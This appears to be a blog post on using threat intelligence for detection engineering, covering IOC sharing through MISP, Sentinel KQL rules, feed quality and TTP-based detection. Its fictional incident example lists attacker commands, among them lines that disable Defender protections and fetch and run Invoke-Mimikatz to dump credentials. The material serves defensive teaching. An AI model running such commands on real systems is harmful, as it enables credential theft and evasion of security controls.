

This blog will serve as a guide to understanding how we can use Cyber Threat Intelligence (CTI) for detection in more ways than just raw data points. 
*For some context, I wrote a little introduction on this topic [earlier in January](https://www.infernux.no/TI-Detection/)* - 
the main point was that most people in security monitoring will **only use CTI as a raw data point (IOCs) and not expand on it, thus limiting information and detection capabilities**. 
Another point was also that CTI is expansive, it's not just data but rather information and we can use that to inform our detection to make it a more proactive approach.

Personally I find that it's important to consider that most companies **will not have a dedicated CTI team**, 
meaning the people working in security monitoring will have to do the best they can with the resources they have. 
That should, however, **not be limited to ingesting as many IOCs as possible and calling it a day**. 
We can do more, and we should do more.

*Once again - I'm not a CTI expert, I'm just very interested in the topic as a security professional.*

## The Elevator Pitch

So, what is this about and who should read this blog? Well, to put it simply - this blog is my best attempt at trying to explain how CTI can be used effectively in the security field. 
CTI is a vast field of expertise within security that can be used in many ways when we give context to data and turn it into different types of information. 
This blog is for **everyone who works in security** - I'm using detection (engineering) and threat hunting as examples here, 
but CTI can inform many other areas of security from board level decisions to incident response. 

## The Hard Data points

So, having said that CTI is more than just hard data, we need to start with the one thing everyone knows - indicators of compromise or IOCs for short. 

For starters, let's look at where IOCs come from. To do this, I introduce:

### **Evil Corp**

Evil Corp was at some point the victim of a cyber attack. 
The attack was a ransomware attack, and the attackers used a phishing email to get in.
At some point, **Company X** was brought in to do incident response. Based on their investigation, the following attack chain emerged:

```mermaid
graph TD
A["'marketing@totallylegit'.com"] --> b['susan@evilcorp'.com]
A -.-> |contains| C[proposal.pdf]
C -.-> |contains| D[not_a_loader.exe]
I[C2-server 13.37.13.37]
D --> |downloads beacon| Be[beacon.exe]
D -..-> |downloads from| I
Be ----> |command and control traffic| I
I ----> |command and control traffic| Be
```

The team was also able to find some of the commands that were run on the infected systems:

```powershell
beacon.exe -c2 13.37.13.37
whoami /all
hostname
net users
net users /domain 
net groups
systeminfo 
$ExecutionContext.SessionState.LanguageMode
netstat -ano
Set-MpPreference -DisableRealTimeMonitoring $true	
Set-MpPreference -DisableIOAVProtection $true	
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml
$uri = "https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1"
$module = Invoke-RestMethod -Uri $uri
$creds = Invoke-MImikatz -DumpCreds
```

Now, we can map this attack chain to artifacts and list them in a table.

| Artifact | Type | Description |
|----------|------|-------------|
| 'marketing@totallylegit'.com | Email | Phishing email |
| proposal.pdf | File | Attachment in phishing email |
| not_a_loader.exe | File | Malware |
| beacon.exe | File | Malware/RAT |
| 13.37.13.37 | IP | C2 server |
| whoami /all | Command | Command to get user info |
| hostname | Command | Command to get hostname |
| net users | Command | Command to get local users |
| net users /domain | Command | Command to get domain users |
| net groups | Command | Command to get local groups |
| systeminfo | Command | Command to get system info |
| $ExecutionContext.SessionState.LanguageMode | Command | Command to get language mode |
| netstat -ano | Command | Command to get network info |
| Set-MpPreference -DisableRealTimeMonitoring $true | Command | Command to disable real-time monitoring |
| Set-MpPreference -DisableIOAVProtection $true | Command | Command to disable IOAV protection |
| reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin" | Command | Command to query registry |
| reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | Command | Command to query registry |
| dir /s SAM | Command | Command to list the SAM file |
| dir /s SYSTEM | Command | Command to list the SYSTEM file |
| dir /s Unattend.xml | Command | Command to list the Unattend.xml file |
| $uri = "https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1" | Command | Command to download Invoke-Mimikatz |
| $module = Invoke-RestMethod -Uri $uri | Command | Command to download Invoke-Mimikatz |
| $creds = Invoke-MImikatz -DumpCreds | Command | Command to dump creds |

Now, at this point, some of the artifacts can be used as IOCs. So how do these IOCs get around, who shares them? 
Well, everyone, really (and ideally). Microsoft has a *trillion trillion trillion* signals and when they detect something, they can choose to share it.
But let's get back to **Evil Corp**. Let's say they are a part of the sector-cert for their industry, the **Super Villian CERT**. 
Evil Corp can choose to share the IOCs they have found with the Super Villian CERT, and the Super Villian CERT can then share it with other companies in the sector.
This is done usin a **TIP** or a **Threat Intelligence Platform**. A good example of a platform like this is **MISP**, or [Malware Information Sharing Platform.](https://www.misp-project.org/)


In this case, if we use MISP as an example what happens is the following:
1. Evil Corp creates an event in their TIP
2. All the IOCs are added as attributes to the event
3. Once everything is added and check for quality, the event is published and shared to the Super Villian CERT

For more information on some core concepts in MISP (and TIPs in general), check out this [cheatsheet pdf provided by the MISP-project.](https://www.misp-project.org/misp-training/cheatsheet.pdf)

**So, with that, we have an idea of how an IOC might come to us. But what do we do with it?**

## Detection Engineering with CTI 101

There are multiple ways to use IOCs in detection. For the first level I will go with the most common and basic way, which is **manual reactive detection**.
An example of this might be a specific event or campaign, like **log4j** or something similar reported by a trusted source like Microsoft.

As an example, let's look at this [Star Blizzard spear-phishing campaign](https://www.microsoft.com/en-us/security/blog/2025/01/16/new-star-blizzard-spear-phishing-campaign-targets-whatsapp-accounts/) report from Microsoft. 


We can see that they have a list of IOCs that we can use to detect the attack:

### Indicators of compromise

|Indicator	|Type	|Last seen|
|-----------|-------|---------|
|civilstructgeo[.]org |	Domain |	October 2024
|aerofluidthermo[.]org |	Domain |	October 2024

In the report, Microsoft also provides some hunting queries that we can use to detect the attack:

```kql
let domainList = dynamic(["civilstructgeo.org", "aerofluidthermo.org"]);
union
(
    DnsEvents
    | where QueryType has_any(domainList) or Name has_any(domainList)
    | project TimeGenerated, Domain = QueryType, SourceTable = "DnsEvents"
),
(
    IdentityQueryEvents
    | where QueryTarget has_any(domainList)
    | project Timestamp, Domain = QueryTarget, SourceTable = "IdentityQueryEvents"
),
(
    DeviceNetworkEvents
    | where RemoteUrl has_any(domainList)
    | project Timestamp, Domain = RemoteUrl, SourceTable = "DeviceNetworkEvents"
),
(
    DeviceNetworkInfo
    | extend DnsAddresses = parse_json(DnsAddresses), ConnectedNetworks = parse_json(ConnectedNetworks)
    | mv-expand DnsAddresses, ConnectedNetworks
    | where DnsAddresses has_any(domainList) or ConnectedNetworks.Name has_any(domainList)
    | project Timestamp, Domain = coalesce(DnsAddresses, ConnectedNetworks.Name), SourceTable = "DeviceNetworkInfo"
),
(
    VMConnection
    | extend RemoteDnsQuestions = parse_json(RemoteDnsQuestions), RemoteDnsCanonicalNames = parse_json(RemoteDnsCanonicalNames)
    | mv-expand RemoteDnsQuestions, RemoteDnsCanonicalNames
    | where RemoteDnsQuestions has_any(domainList) or RemoteDnsCanonicalNames has_any(domainList)
    | project TimeGenerated, Domain = coalesce(RemoteDnsQuestions, RemoteDnsCanonicalNames), SourceTable = "VMConnection"
),
(
    W3CIISLog
    | where csHost has_any(domainList) or csReferer has_any(domainList)
    | project TimeGenerated, Domain = coalesce(csHost, csReferer), SourceTable = "W3CIISLog"
),
(
    EmailUrlInfo
    | where UrlDomain has_any(domainList)
    | project Timestamp, Domain = UrlDomain, SourceTable = "EmailUrlInfo"
),
(
    UrlClickEvents
    | where Url has_any(domainList)
    | project Timestamp, Domain = Url, SourceTable = "UrlClickEvents"
)
| order by TimeGenerated desc
```

Now, this query uses hardcoded IOCs - it's also normal to see a reference to an external list of IOCs, which is slightly more dynamic but still depends on being updated. 
You can probably see why this is **fine as a knee-jerk, short-term solution**, but it's **not a long term solution nor scalable** for any sort of MSSP or multi-SIEM work.

## Moving from manual detection to automated detection

This brings us to the next step - ingesting IOCs into a detection rule. 
The idea here is that instead of hardcoding IOCs into the query itself, we can create a generic detection rule that references a dynamic table of IOCs:



Given this data flow, we can now create generic detections rules that only reference our IOC table. This means we can use a **TIP tool to send data into our SIEM and not have to touch the detection rule itself**.

In practice, this would look something like this in a SIEM (using Microsoft Sentinel and KQL as an example). If we install the **Threat Intelligence** content package from Content Hub, we get the `TI map Domain entity to EmailEvents` analytic rule included. This rule uses the following query:

```kql
let dt_lookBack = 1h;
let ioc_lookBack = 14d;
let EmailEvents_ = materialize(EmailEvents | where isnotempty(RecipientEmailAddress) and isnotempty(SenderFromAddress) and TimeGenerated >= ago(dt_lookBack) and DeliveryAction !has "Blocked" | project-rename  EmailEvents_TimeGenerated = TimeGenerated | extend SenderFromDomain = tolower(SenderFromDomain) | extend RecipientEmailDomain = tolower(tostring(split(RecipientEmailAddress, '@', 1))));
let SenderDomains = EmailEvents_ | distinct  SenderFromDomain | summarize make_list(SenderFromDomain);
let RecipientDomains = EmailEvents_ | distinct  RecipientEmailDomain | summarize make_list(RecipientEmailDomain);
let TI = materialize(ThreatIntelligenceIndicator
| where TimeGenerated >= ago(ioc_lookBack)
| where isnotempty(DomainName)
| extend TI_Domain = tolower(DomainName)
| where TI_Domain in (SenderDomains) or TI_Domain in (RecipientDomains)
| summarize LatestIndicatorTime = arg_max(TimeGenerated, *) by IndicatorId
| where Active == true and ExpirationDateTime > now()
| where Description !contains_cs "State: inactive;" and Description !contains_cs "State: falsepos;");
(union
  (TI | join kind=innerunique (EmailEvents_) on $left.TI_Domain == $right.SenderFromDomain),
  (TI | join kind=innerunique (EmailEvents_) on $left.TI_Domain == $right.RecipientEmailDomain))
| where EmailEvents_TimeGenerated < ExpirationDateTime
| summarize EmailEvents_TimeGenerated = arg_max(EmailEvents_TimeGenerated, *) by IndicatorId, RecipientEmailAddress
| project EmailEvents_TimeGenerated, Description, ActivityGroupNames, IndicatorId, ThreatType, ExpirationDateTime, ConfidenceScore, DomainName, RecipientEmailAddress, SenderFromAddress, Subject, ConfidenceLevel, Url, Type, TI_Domain, TrafficLightProtocolLevel, DeliveryAction, DeliveryLocation, EmailDirection
| extend Name = tostring(split(RecipientEmailAddress, '@', 0)[0]), UPNSuffix = tostring(split(RecipientEmailAddress, '@', 1)[0])
| extend timestamp = EmailEvents_TimeGenerated
```

Now, this query is a bit more complex and might be hard to understand, so in the interest of making a point, let's look at the relevant parts:

```kql
let TI = materialize(ThreatIntelligenceIndicator
| where TimeGenerated >= ago(ioc_lookBack)
| where isnotempty(DomainName)
| extend TI_Domain = tolower(DomainName)
| where TI_Domain in (SenderDomains) or TI_Domain in (RecipientDomains)
| summarize LatestIndicatorTime = arg_max(TimeGenerated, *) by IndicatorId
| where Active == true and ExpirationDateTime > now()
| where Description !contains_cs "State: inactive;" and Description !contains_cs "State: falsepos;");
```

This part of the query is where we reference the IOC table, and we filter it out to only include IOCs that are relevant to the data we have in the EmailEvents table, in this case `DomainName`. This information is stored in the `TI` variable. 

Next, we join the `TI` variable with the `EmailEvents_` variable, which is the data we have in the EmailEvents table. This is done in the following part of the query:

```kql
(union
  (TI | join kind=innerunique (EmailEvents_) on $left.TI_Domain == $right.SenderFromDomain),
  (TI | join kind=innerunique (EmailEvents_) on $left.TI_Domain == $right.RecipientEmailDomain))
```

The rest of the query is partly filtering, formatting and summarizing the data, but the main point is that we have now created a detection rule that is **dynamic and references a table of IOCs**. This means that we can now **ingest IOCs from a TIP and have them automatically used in our detection rules**.

This is good, but it's **still reactive**. At this point, it's fitting to dive into some of the **issues with IOCs - the quality of the data**:

### Data Quality and IOCs

There are three issues we can face when talking about IOCs:

1. Lifecycle of an IOC
2. False positives rate
3. Data integrity

#### Lifecycle of an IOC

Due to the transient nature of IPs and domains they have very **limited lifetime**. If you ingest IOCs from a feed, the data will be **outdated in a matter of days or weeks**. These kind of indicators will likely be related to a campaign for a period of time, then **cycle back to being benign**, even used for legitimate purposes. Hashes are a static and reliable for a long time, but they can be changed with a simple recompile.

This is usually not a problem as most TIPs and SIEMs will have a way to set the TTL, but it's still something to be aware of. 

#### False positives rate

Let's imagine we have done some research on feeds and we've found **3 feeds** that we deem of good quality and we want to use them in our detection.


At this point, we don't really know the quality of the feeds except for the external information we have. To get a better understanding of the quality of the feeds, we can apply some data science. Let's imagine we tag all events from the feeds with their feed number and this information is persisted in the transfer of the IOCs to our SIEM. We can then determine the rate of false and true positives for each feed.

> 💡 **Note:** an interesting feature in a lot of TIPs is the ability to tag IOCs with a confidence level. This can be used to filter what indicators are used directly for detection and which are simply reserved for enrichment and hunting.

Expanding on this idea, let's say we figure out that the following feeds have the following false positive rates:

| Feed | False Positive Rate |
|------|---------------------|
| 1    | 5%               |
| 2    | 25%               |
| 3    | 50%               |

We can now adjust the feeds we use in our detection based on this information:


> 💡 **Note:** MISP has a feature called warninglists. These are lists "of well-known indicators that can be associated to potential false positives, errors or mistakes." - [Source: Github MISP/misp-warninglists](https://github.com/MISP/misp-warninglists).

This is a simple example, but we can now make some **informed decisions about what to use our feeds for**, like using feed 1 for detection and possibly also protection to block traffic in a firewall, or add to endpoint protection. Feed 2 might be used for hunting and enrichment, while feed 3 might be phased out entirely.

**🔴 Warning, minor rant incoming 🔴**

I will also make a more general point related to security monitoring here - there's a lot that can be said about the quantity of data. A common idea is that **it is never the quantity of data that is the problem** (*given infinite funds 💸💸💸*), rather our ability to handle it properly and writing good queries. The idea of **a log source having a cost/value benefit only comes into action once we apply a budget to our security operations (which we all have)**. Data serves different purposes for sure - some of it is better suited as detection data while some might be better for operations, or for threat hunting or even incident response if that need should arise. We shouldn't shy away from data, just know what to do with it.

**Some data sources**, however, **differ a bit from this idea**. In an ideal closed system like for example Azure, our signin logs via Entra ID will have high integrity and be reliable information. **Threat Intelligence might not always be as reliable**. There are multiple reasons for this - some of which we will dive a bit into in the next section. The point is that we need to be informed about the quality of TI we ingest - from my experience this is not a common practice today. For the most part, it's ***"awesome free cyber security threat intelligence feed"*** and then we just ingest it without any further thought.

#### Data integrity

I've been waiting for the day when I can bring back up this fantastic artwork I made for an earlier blog post made over 5 years ago:


The CIA principle in security is well-known and it applies to TI as well (duh). In this case, we can look at the **integrity of the data we ingest**. Mainly I want to focus on the fact that we don't always know who owns the feeds and data we ingest. **Are we sure that whoever keeps the feed is not compromised?** Are we sure that the data is **not manipulated?**

Can we also be sure everyone on ~~twitter~~ BlueSky is who they say they are, and **whoever maintains the GitHub-repos with list of feeds or IOC's is a trustworthy source**?

I won't dive any deeper into this - but **it's important to do due diligence on the feeds we ingest and make informed decisions**.

## How TTPs can help us be proactive

Now - we've talked about IOCs and how we can use them in detection. But what if we could be more proactive? That's what we can do with TTPs. 

In the beginning of the blog post, we talked about the Evil Corp attack. We also had a list of artifacts, some of which are IOCs. The rest of the artifacts are commands used by the attacker on the system. This, together with other characteristics such as the C2 server flavor, user agent type and a lot of other small signals can help us identify the TTPs of the attacker.

So what are TTPs? TTPs are Tactics, Techniques and Procedures. They are the **modus operandi of the attacker**. Maybe the most famous framework for TTPs is the [MITRE ATT&CK framework](https://attack.mitre.org/) and their ATT&CK Matix for Enterprise. Based on information from an attack, we can map the TTPs of the attacker to the MITRE ATT&CK framework.

> 💡 **Note:** one attack might not form the greatest dataset in the world, naturally. Global or national certs, sector-based certs and large enterprises will be able to gather more data and information to craft sector assessments that should contain some sort of TTP guidance.

### Crafting detections based on TTPs

Given the **Evil Corp** attack described earlier, let's try our hand at some detections. First and foremost, let's start simple. Let's assume we are working on a detection rule for the **beacon.exe** malware on a windows system. Using Microsoft's reference ["Queries for the SecurityEvent table"](https://learn.microsoft.com/en-us/azure/azure-monitor/reference/queries/securityevent) we craft the following query:

#### Detection rule for beacon.exe

```kql
SecurityEvent
// limit lookback to 1 day, adjust as needed
// generally a good idea to make queries more efficient 
| where TimeGenerated > ago(1d)
// filter for eventID 4688, which is process creation and include the process name
| where EventID == 4688 and Process == "beacon.exe"
```

To expand on this, we know that `beacon.exe` was invoked with a command line argument that pointed to the C2-server:

```kql
SecurityEvent
| where TimeGenerated > ago(1d)
| where EventID == 4688 and Process == "beacon.exe" and CommandLine contains "-c2"
// add projecting filters
| project TimeGenerated, Computer, Account, Activity, CommandLine
```

Moving on from this, let's take a look at detecting the attacker's `req query` usage:

#### Detection rule for reg query

Again, let's start simple. We can build a query with similar logic to the previous one:

```kql
SecurityEvent
| where TimeGenerated > ago(1d)
| where EventID == 4688 and Process == "reg.exe" and CommandLine contains "query"
```

This time we look for spawning of `reg.exe` with the `query` argument. Now, this rule in itself will lend itself to massive amounts of false positives - reqistry queries are not abnormal on a Windows system. We can argue that applying it only to endpoints used by certain groups or users might be a good idea, but we can still improve on the query itself.

In this case, we can choose to filter on the specific registry keys that were queried:

```kql
SecurityEvent
| where TimeGenerated > ago(1d)
| where EventID == 4688 and Process == "reg.exe" and CommandLine contains "query" and (CommandLine has "HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\winlogin" or CommandLine has "HKCU\\Software\\SimonTatham\\PuTTY\\Sessions")
| project TimeGenerated, Computer, Account, Activity, CommandLine
```

The ***quality of this second query might be a bit higher*** than the first example. **Why?** Well, the first one used a specific .exe file which might only be related to this specific attack, while the **second one uses a specific command that is more likely to be used in a malicious context across multiple hands-on-keyboard scenarios**. 

Obviously there are a lot of reg queries that are benign, but there is a limited subset that is queried for mostly malicious purposes. 

## Where do we go from here?

I think it goes without saying that this is just the tip of the iceberg, we are only scratching the surface of what we can do with CTI in detection and in general. If you don't work specifically with security monitoring or detection, think of how we can apply some of the lessons in this blog to other areas of security.

If we think back to the **Evil Corp** attack chain once again, we might take some pointers for our protection. Do we already have a office and email security solution that can help protect us against phishing in place? If so, are our policies and configurations up to date and following best practice? 

Other things we can draw from the information we have might be:
- Look at implementing phishing resistant MFA
- If we don't have an EDR solution on our endpoints, maybe it's time to look into that
- The commands suggest the attacker was able to disable EDR and AV - are we monitoring for these changes? Can we get rid of local administrator rights for our users? Can we enable tamper protection on our EDR solution?

Our CERT, Super Villian CERT, might be able to help provide some insights into the super villian sector and how we can protect ourselves better. What trends are we seeing in attacks? What TTPs are most common?

Let's assume that attacker in the middle (AiTM) is heavily on the rise in our sector - what can we do with that information? Can we implement some sort of protection against it? Can we detect it? Can we hunt for it?

This is how we can use CTI in more ways than just detection. We can use it to inform across all areas of security, in all sorts of phases and processes. CTI will, if applied correctly, also help us make a more effective and informed shift left. In Microsoft's [Cybersecurity Reference Architecture](https://learn.microsoft.com/en-us/security/adoption/mcra) we can use the following image to illustrate this:


What we discussed in this blog is mostly part of the **detect** phase, but we can also use CTI in the **protect** phase both as hard data and information. Maybe most importantly, we can use CTI heavily in the **identify** phase. [Identify](https://csf.tools/reference/nist-cybersecurity-framework/v2-0/id/) is the first phase in the NIST Cybersecurity Framework and it's all about understanding what we have and what we need to protect. It's about understanding our assets, our risks and our threats - **all of this informs and can be informed by CTI.**

## Summary

In this blog post, we've talked about how we can use CTI in detection, and we've looked at three levels of detection engineering using CTI as our guiding light. We've also talked about the quality of the data we ingest and how we can use TTPs to be more proactive in our detection.